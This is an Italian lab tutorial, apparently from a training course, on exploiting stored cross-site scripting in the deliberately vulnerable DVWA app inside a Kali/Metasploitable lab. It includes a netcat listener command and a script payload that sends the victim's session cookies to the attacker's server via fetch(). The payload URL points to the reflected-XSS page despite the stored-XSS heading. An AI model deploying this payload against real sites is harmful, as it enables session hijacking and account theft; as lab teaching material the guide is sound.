 
# 🛡 **TRACCIA GIORNO 2: Exploit XSS Persistente su DVWA (Low e Medium)**

Questa guida illustra come sfruttare una vulnerabilità di **Cross-Site Scripting (XSS) Persistente** sulla piattaforma **DVWA (Damn Vulnerable Web Application)** in modalità **Low** e **Medium**. L'obiettivo è simulare il furto di cookie di sessione inviandoli a un server sotto il nostro controllo.

## **Requisiti**

1. **DVWA Installato** e configurato.
2. **Livelli di Sicurezza** impostati su **Low** e **Medium**.
3. **Server di Ascolto** su Kali Linux configurato per ricevere i cookie sulla porta **4444**.
4. Indirizzi IP:
   - **Kali Linux**: `192.168.50.165`
   - **Metasploitable**: `192.168.50.3`

## 🔍 **Parte 1: XSS Persistente in Modalità Low**

### 🎯 **Obiettivo**
Iniettare uno script malevolo nella web application DVWA per inviare i cookie della sessione al nostro server di ascolto.

### 📝 **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Avvia Netcat per ricevere i cookie sulla porta 4444:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```

3. **Inserisci il Payload**:
   Usa il seguente script JavaScript nel campo vulnerabile (esempio: un campo commento):
   ```html
   <script>
     fetch('http://192.168.50.165:4444', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che la pagina viene caricata, lo script invierà i cookie della sessione al server di ascolto.
